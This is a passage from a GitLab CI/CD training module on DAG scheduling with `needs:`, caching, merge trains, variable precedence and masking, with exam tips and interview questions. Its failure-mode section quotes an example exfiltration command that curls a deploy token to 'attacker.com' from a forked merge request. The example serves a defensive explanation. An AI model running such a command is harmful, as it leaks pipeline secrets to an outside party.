| **Artifact Scoping** | All earlier stage artifacts downloaded into every subsequent job | Scoped DAG downloads via `needs:artifacts: true/false` and `dependencies:` | Massive network and I/O waste transfering gigabytes of unneeded artifacts to downstream jobs. |
| **Local Verification** | `gitlab-runner exec docker <job>` CLI command | Local emulation using `gitlab-ci-local` container orchestrator | `gitlab-runner exec` was officially deprecated and removed due to inability to parse DAGs and components. |

---

## 9. Exam Delta: GitLab Certified CI/CD Associate & Modern GitLab 19

> [!NOTE]
> **Exam Delta: Certification Traps in Job Execution & Dependencies**
>
> When sitting for the **GitLab Certified CI/CD Associate** or technical architecture assessments, pay strict attention to these nuanced edge cases:
>
> 1. **Default `needs:` Artifact Behavior**: In older training manuals, candidates assume declaring `needs: [job_a]` still downloads artifacts from `job_b` if `job_b` ran in an earlier stage. On modern GitLab, **`needs` overrides default stage artifact inheritance**. Declaring any `needs` on a job causes it to download artifacts **exclusively** from the jobs specified in its `needs` list.
> 2. **`needs: []` Empty Array Semantics**: Setting `needs: []` does not mean "no prerequisites in my stage"; it means "this job has zero dependencies across the entire pipeline and must run immediately at pipeline creation," completely ignoring stage sequence!
> 3. **Variable Precedence Collisions**: Exam questions regularly test the precedence order between Group CI Variables, Project CI Variables, and `.gitlab-ci.yml` `variables:`. Remember: **Project CI/CD variables override Group CI/CD variables, and both override YAML variables.**

---

## 10. Production Failure Modes & Operational Gotchas

### 10.1 DAG Artifact Amnesia: The Missing Upstream Artifact

- **Symptom**: Job `deploy-prod` fails with `FileNotFoundError: dist/bundle.js not found`, even though the earlier job `build-assets` uploaded `dist/` successfully.
- **Root Cause**: `deploy-prod` defines `needs: ["smoke-test"]`. Because `needs:` was specified, GitLab disabled the automatic download of all previous stage artifacts. Because `build-assets` was not listed in `needs:`, its artifacts were omitted.
- **Remediation**: Add `build-assets` directly to `needs:`, or explicitly combine `needs` with `dependencies:`:

```yaml
deploy-prod:
  stage: deploy
  needs:
    - job: smoke-test
      artifacts: false
    - job: build-assets
      artifacts: true
  script:
    - ./deploy.sh dist/
```

### 10.2 Cache Poisoning Across Multiple Branches

- **Symptom**: Builds on the `main` branch intermittently fail with cryptic native compilation errors after a feature branch testing an experimental package version was pushed.
- **Root Cause**: The `.gitlab-ci.yml` configuration used a static, unkeyed cache: `cache:key: "node_modules"`. When the feature branch executed, it uploaded corrupted or experimental binary packages into the shared S3 cache bucket under key `node_modules`, which the `main` pipeline subsequently restored.
- **Remediation**: Key caches dynamically by lockfile checksum and branch reference:

```yaml
default:
  cache:
    key:
      files:
        - package-lock.json
      prefix: ${CI_COMMIT_REF_SLUG}
    fallback_keys:
      - ${CI_DEFAULT_BRANCH}
      - default
    paths:
      - .npm/
    policy: pull-push
```

### 10.3 Merge Train Cascade Derailment

- **Symptom**: Ten engineers queued their Merge Requests in a Merge Train. When Car 1 had an intermittent network timeout during a package install, all 10 pipelines were immediately terminated, sending alert emails to the entire team.
- **Root Cause**: The failure of Car 1 invalidated the speculative baseline for every subsequent car in the train ($C_0 \oplus \text{MR}_1 \oplus \text{MR}_2 \dots$).
- **Remediation**: Configure flaky test retry policies (`retry: 2` on runner network errors). Implement robust health checks to prevent transient infrastructure failures from derailing the train.

### 10.4 Secret Exfiltration via Forked Merge Request Pipelines

- **Symptom**: An external contributor submits an MR from a forked repository that modifies `.gitlab-ci.yml` to execute `curl http://attacker.com?token=$DEPLOY_TOKEN`.
- **Root Cause**: CI/CD variables were not protected, or the project allowed pipeline runs from forks to access parent project variables.
- **Remediation**: Enable "Protect CI/CD variables" and verify that all deployment credentials are restricted to protected branches. In project settings, ensure "Prevent forked pipelines from accessing secrets" is active.

---

## Interview Drill

<details><summary>1. What is the fundamental latency difference between synchronous stages and an asynchronous DAG in GitLab CI?</summary>

In a synchronous stage model, every stage acts as a global barrier: all jobs in stage $s_i$ must terminate successfully before any job in stage $s_{i+1}$ can be scheduled. The duration of each stage is determined by its slowest job (the straggler), and total pipeline latency is the sum of these stage maxima ($\sum \max \tau(j)$). In an asynchronous DAG pipeline configured with `needs:`, job scheduling is governed by individual causal dependencies. A job in a downstream stage begins the instant its specific prerequisite jobs finish, bypassing the stage barrier. The total pipeline duration is reduced to the critical path length of the graph, eliminating idle runner time caused by unrelated slow jobs.
</details>

<details><summary>2. How does setting `needs: []` alter the execution order of a job in GitLab CI?</summary>

Setting `needs: []` (an empty array) signals to the pipeline compiler that the job has zero causal dependencies anywhere in the pipeline. It completely detaches the job from its assigned stage. The job transitions to the `pending` state immediately upon pipeline creation, running concurrently with jobs in the very first stage (`build`), even if the job itself is assigned to `deploy` or `cleanup`. Furthermore, `needs: []` prevents the job from downloading any artifacts from previous stages.
</details>

<details><summary>3. Explain the difference between GitLab CI Artifacts and Caches in terms of storage, consistency, and lifecycle.</summary>

Artifacts are designed for guaranteed, deterministic inter-job communication and permanent build output archival. They are uploaded to GitLab object storage, tracked in PostgreSQL, downloadable via the GitLab Web UI/API, and protected by strict consistency (if an artifact upload fails, the job fails). In contrast, Cache is an ephemeral optimization designed to speed up builds across runs (e.g., storing package directories like `node_modules`). Cache is stored in an S3/MinIO bucket on the runner, operates on best-effort consistency (a cache upload/download failure never halts a job), can be expired or evicted at any time, and is not accessible via the GitLab UI.
</details>

<details><summary>4. How does the 10-tier variable precedence hierarchy resolve conflicts between `.gitlab-ci.yml` variables and Project CI/CD settings variables?</summary>

Variables defined in the project settings (`Settings > CI/CD > Variables`, Tier 4) have higher precedence than variables declared inside the `.gitlab-ci.yml` file (`variables:` in YAML, Tier 7 for global and Tier 8 for job-level). If a variable `DATABASE_URL` is set to `postgres://prod` in project settings and defined as `postgres://dev` in `.gitlab-ci.yml`, the job receives `postgres://prod`. However, manual pipeline runs via the Web UI (Tier 3) or trigger tokens via API (Tier 1) take precedence over project settings variables, allowing operators to override configuration for custom runs.
</details>

<details><summary>5. What is a "Semantic Merge Conflict," and how do Merge Trains prevent it?</summary>

A semantic merge conflict occurs when two concurrent branches merge cleanly at the Git text level without syntax conflict markers, but the combination of their changes breaks code compilation or test invariants (e.g., one branch modifies a function's required parameters while another branch adds a call to that function using the old parameters). Traditional CI runs tests only on the feature branch in isolation. Merge Trains eliminate this by executing speculative integration pipelines: each Merge Request is queued in a train and tested against an ephemeral ref representing the target branch plus all preceding Merge Requests in the train ($C_0 \oplus \text{MR}_1 \oplus \text{MR}_2$). If tests fail, the offending MR is dropped from the train, preventing broken states from ever landing on `main`.
</details>

<details><summary>6. Why must `rules:changes` be used with extreme caution on branch pipelines compared to merge request pipelines?</summary>

In Merge Request pipelines (`CI_PIPELINE_SOURCE == "merge_request_event"`), GitLab automatically compares the MR source branch against the target branch tip (`refs/heads/main`). `rules:changes` inspects the entire cumulative diff of the feature. However, in a standard branch push pipeline (`CI_PIPELINE_SOURCE == "push"`), GitLab defaults to comparing the pushed commit against its immediate parent commit (`HEAD~1`). If a developer pushes a branch containing multiple commits, or if a branch is pushed for the first time without a parent reference, `rules:changes` may evaluate against only the latest single commit, leading to jobs being unexpectedly skipped. To fix this, engineers must explicitly define `compare_to: "refs/heads/main"`.
</details>

<details><summary>7. What are the constraints for masking a variable in GitLab CI, and how do you handle complex secrets like private keys?</summary>

To be masked in job console logs, a variable must: (1) be a single line containing no newlines or carriage returns, (2) have a minimum length of 8 characters, and (3) consist exclusively of Base64-compatible characters (`[a-zA-Z0-9_+=/@:.~-]`). Multi-line secrets (such as PEM RSA/Ed25519 private keys or complex JSON service account files) cannot be masked natively. To secure them, engineers must either: store them as **File-type Variables** (which GitLab injects as a temporary file path rather than an environment variable, preventing accidental shell echo), base64-encode the payload, or authenticate via keyless OpenID Connect (OIDC) tokens.
</details>

---

## 12. Proof Map and Verification

The algorithmic behaviors, topological DAG calculations, and precedence rules explained in this module are proven by executable test suites in [`examples/ts/02-gitlab-ci-execution-model-and-dag.test.ts`](../examples/ts/02-gitlab-ci-execution-model-and-dag.test.ts):

- **DAG Scheduling Engine**: Tests execute `SCHEDULE-DAG-JOBS`, verifying that downstream jobs in stage `deploy` start asynchronously the moment their `needs:` prerequisites finish, independently of unrelated jobs in stage `test`.
- **Variable Precedence Engine**: Tests execute `RESOLVE-VARIABLES` across all 10 tiers, confirming that Project Settings variables override YAML variables while Trigger API variables override Project Settings.
- **Artifact Dependency Isolation**: Tests assert that jobs with explicit `needs` only receive artifacts from their specified causal parents, verifying prevention of artifact amnesia and bandwidth waste.
- **Merge Train Simulation**: Tests model speculative queue execution, validating that the derailment of Car 1 triggers automatic rebase and rescheduling of Car 2 onto the target baseline.
